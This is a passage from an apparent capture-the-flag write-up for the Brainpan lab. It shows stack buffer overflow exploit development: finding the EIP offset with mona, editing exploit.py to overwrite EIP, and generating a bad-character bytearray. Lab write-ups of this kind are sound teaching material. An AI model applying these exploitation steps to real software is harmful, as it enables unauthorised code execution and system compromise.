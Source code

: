 The buffer will be sent and the debugger will be in paused mode.

In Immunity debugger, We can find the MSP using `mona` using the distance we know (1000).

`!mona findmsp -distance 1000`

In the logs, we will find something like below.

>Log data, item 24
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x35724134 (offset 524)

It means, we are offset by 524. Lets make some changes in `exploit.py` as below.

```python
prefix = ""
offset = 524  # Added the offset
overflow = "A" * offset
retn = "BBBB" # Add the return string
padding = ""
payload = ""  # Empty the payload
postfix = ""
```

Save the changes and re-run the exploit. Re-run the debugger too.

In the debugger, you can see in _Registers window_ that EIP register is overwritten with 4 B's. (eg. 42424242)

![brainpan](/assets/img/thm_brainpan/eip1.png)

#### Generate Bytearray
Generate a bytearray using **mona**, and exclude the null byte `(\x00)` by default. Note the location of the *bytearray.bin* file that is generated.

> if the working folder was set per the Mona Configuration section of this guide, then the location should be `C:\mona\brainpan\bytearray.bin`

{: .prompt-info }

`!mona bytearray -cpb "\x00"`

Using the `gen.py`, generate payload with all characters.
```console
$ python gen.py    
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

